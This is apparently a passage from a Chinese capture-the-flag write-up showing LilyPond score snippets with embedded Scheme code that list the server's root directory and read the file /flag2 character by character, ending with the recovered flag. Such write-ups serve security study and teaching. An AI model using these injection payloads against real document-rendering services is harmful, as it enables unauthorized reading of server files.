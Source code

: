 所以：  
~~~scheme  
<score>\new Staff <<{  
    #(define dir (opendir "/"))  
    #(define (average a b c) (/ (+ a b c) 3))  
    c^#(object->string (readdir dir))  
    c^#(object->string (readdir dir))  
    c^#(object->string (readdir dir))  
    //此处略  
 }>></score>  
~~~  
可得:  
![](dir.png)  
如法炮制:  
~~~scheme  
<score>\new Staff <<{  
#(define file (open-input-file "/flag2"))  
    c^#(object->string(read-char file))  
    c^#(object->string(read-char file))  
    c^#(object->string(read-char file))  
    c^#(object->string(read-char file))  
    //此处略  
~~~  
![](moiw1ulu.png)  
  
    flag{li1yp0nd_can_1ead_to_rce}  
  
